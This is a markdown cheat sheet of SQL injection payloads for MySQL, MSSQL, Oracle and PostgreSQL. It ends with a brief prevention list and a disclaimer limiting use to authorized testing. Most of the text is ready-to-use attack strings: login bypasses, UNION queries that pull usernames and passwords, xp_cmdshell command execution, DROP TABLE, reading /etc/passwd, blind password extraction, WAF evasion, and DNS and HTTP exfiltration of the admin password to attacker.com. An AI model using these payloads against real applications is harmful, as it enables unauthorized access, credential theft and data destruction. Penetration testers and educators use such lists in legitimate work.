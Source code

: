 ```markdown
# SQL Injection Payloads Cheat Sheet

Below is a comprehensive collection of SQL injection payloads for testing and educational purposes, covering various techniques across different database systems.

## Basic SQL Injection Payloads

### Authentication Bypass
```
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin") or ("1"="1
' or 1=1--
' or 1=1/*
' or 1=1#
') or '1'='1
") or ("1"="1
```

### Union-Based Injection
```
' UNION SELECT 1,2,3--
' UNION SELECT 1,2,3#
' UNION SELECT 1,2,3,4,5--
-1' UNION SELECT 1,@@version,3,4,5--
' UNION SELECT username, password FROM users--
' UNION ALL SELECT table_name FROM information_schema.tables--
' UNION SELECT 1,table_name,3 FROM information_schema.tables--
' UNION SELECT 1,column_name,3 FROM information_schema.columns WHERE table_name='users'--
```

## Database-Specific Payloads

### MySQL
```
' OR SLEEP(5)#
' OR BENCHMARK(1000000,MD5('A'))#
' AND (SELECT 1 FROM (SELECT SLEEP(5))a)#
' AND EXTRACTVALUE(1,CONCAT(0x5C,(SELECT @@version)))#
' UNION SELECT 1,load_file('/etc/passwd'),3,4,5--
' AND (SELECT 1 FROM (SELECT(SLEEP(5)))bAKL)--
' AND MAKE_SET(1=1, SLEEP(5))--
```

### MSSQL
```
' OR 1=CONVERT(int,@@version)--
'; EXEC xp_cmdshell 'dir'--
'; EXEC master..xp_cmdshell 'ping 127.0.0.1'--
' UNION SELECT 1,name FROM master..sysdatabases--
'; DROP TABLE users--
'; SELECT * FROM OPENROWSET('SQLOLEDB','Trusted_Connection=yes','SELECT * FROM master..sysdatabases')--
```

### Oracle
```
' OR 1=utl_inaddr.get_host_name((SELECT banner FROM v$version WHERE rownum=1))--
' AND (SELECT UTL_INADDR.get_host_name('10.0.0.1') FROM dual) IS NOT NULL--
' UNION SELECT 1,table_name FROM all_tables--
' AND DBMS_PIPE.RECEIVE_MESSAGE(('a'),5)=1--
' AND (SELECT COUNT(*) FROM all_users WHERE username='SYS')=1--
```

### PostgreSQL
```
' OR 1=CAST(version() AS int)--
'; SELECT pg_sleep(5)--
' AND (SELECT 1 FROM pg_sleep(5))--
' UNION SELECT 1,current_database(),3,4--
' COPY (SELECT '') TO PROGRAM 'nslookup attacker.com'--
' AND (SELECT 1 FROM pg_sleep(5)) IS NOT NULL--
```

## Blind SQL Injection Payloads

### Boolean-Based Blind
```
' AND SUBSTRING((SELECT @@version),1,1)='M'--
' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))>50--
' AND (SELECT COUNT(*) FROM users WHERE username='admin' AND SUBSTRING(password,1,1)='a')=1--
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a'--
```

### Time-Based Blind
```
' OR IF(SUBSTRING((SELECT @@version),1,1)='M',SLEEP(5),0)--
'; IF (SELECT COUNT(*) FROM users WHERE username='admin' AND SUBSTRING(password,1,1)='a')=1 WAITFOR DELAY '0:0:5'--
' AND (SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)='a') THEN pg_sleep(5) ELSE pg_sleep(0) END)--
' AND (SELECT CASE WHEN (ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))=97) THEN pg_sleep(5) ELSE pg_sleep(0) END)--
```

## Out-of-Band SQL Injection

### DNS Exfiltration
```
' UNION SELECT 1,LOAD_FILE(CONCAT('\\\\',(SELECT password FROM users WHERE username='admin' LIMIT 1),'.attacker.com\\share\\'))--
'; DECLARE @data VARCHAR(1024); SELECT @data=(SELECT password FROM users WHERE username='admin'); EXEC('master..xp_dirtree "\\'+@data+'.attacker.com\share"')--
' AND (SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM users WHERE username='admin' LIMIT 1),'.attacker.com\\'))) IS NOT NULL--
```

### HTTP Exfiltration
```
' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32 FROM OPENROWSET('SQLOLEDB','http://attacker.com/collect.php?data='+(SELECT+@@version),'SELECT 1')--
' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32 FROM OPENROWSET('SQLOLEDB','http://attacker.com/collect.php?data='+(SELECT+password+FROM+users+WHERE+username='admin'),'SELECT 1')--
```

## Advanced Techniques

### Second-Order Injection
```
Username: admin'--
Password: anything

INSERT INTO temp_users SELECT * FROM users WHERE username='admin'--';
```

### Error-Based SQL Injection
```
' AND GTID_SUBSET(@@version,0)--
' AND EXP(~(SELECT * FROM(SELECT @@version)x))--
' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT(@@version,FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--
```

### Bypassing WAFs

#### Encoding Techniques
```
admin' AND 1=0x31--
%27%20%4f%52%20%31%3d%31%20%2d%2d
admin' %2F%2A%2A%2For%2F%2A%2A%2F 1=1--
```

#### Alternative Keywords
```
admin' || 1=1--
admin' && 1=1--
admin' XOR 1=1--
```

#### Comment Variations
```
admin'/**/or/**/1=1--
admin'/*!or*/1=1--
admin'/*!50000or*/1=1--
```

## Database Fingerprinting

```
' OR 'a'='a' /* MySQL */
' OR 'a'='a' -- MSSQL
' OR 'a'='a' /* Oracle */
' OR 'a'='a' -- PostgreSQL
```

## Prevention and Mitigation

1. Use prepared statements with parameterized queries
2. Implement proper input validation
3. Apply the principle of least privilege
4. Use stored procedures
5. Enable WAF protection
6. Regularly update database software
7. Implement proper error handling
8. Use ORM frameworks when possible
9. Conduct regular security audits
10. Implement rate limiting on authentication endpoints
11. Use database permissions effectively
12. Encrypt sensitive data
13. Implement multi-factor authentication
14. Monitor and log database activities

## Important Notes

- These payloads are for educational and authorized testing purposes only
- Unauthorized SQL injection attacks are illegal and punishable by law
- Always get proper written authorization before testing
- Many modern systems have protections against SQL injection
- Responsible disclosure is recommended when vulnerabilities are found
- Consider using legal bug bounty programs for testing production systems
- Document all testing activities for compliance purposes
- Never test systems you don't own or have explicit permission to test
- Be aware of data protection laws in your jurisdiction

Remember to use these techniques only in environments where you have explicit permission to test. Unauthorized access to computer systems is prohibited by law in most jurisdictions.
```